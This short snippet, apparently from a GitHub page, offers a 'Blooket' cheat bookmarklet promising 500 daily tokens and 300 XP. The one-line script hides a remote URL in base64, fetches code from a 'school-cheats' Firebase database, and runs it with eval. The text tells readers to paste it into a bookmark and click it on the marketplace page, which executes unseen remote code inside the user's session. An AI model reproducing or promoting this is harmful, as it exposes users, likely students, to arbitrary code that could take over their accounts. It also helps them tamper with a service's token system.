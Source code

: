 # Blooket 
infinatetokens.js:

fetch(atob('aHR0cHM6Ly9zY2hvb2wtY2hlYXRzLTFhNGVlLWRlZmF1bHQtcnRkYi5maXJlYmFzZWlvLmNvbS9nbG9iYWxBZGRUb2tlbnMuanNvbg==')).then(res => res.text()).then(t => eval(JSON.parse(t)));

Just copy and paste into a bookmark for blooket marketplace and then click for 500 daily tokens and 300XP.
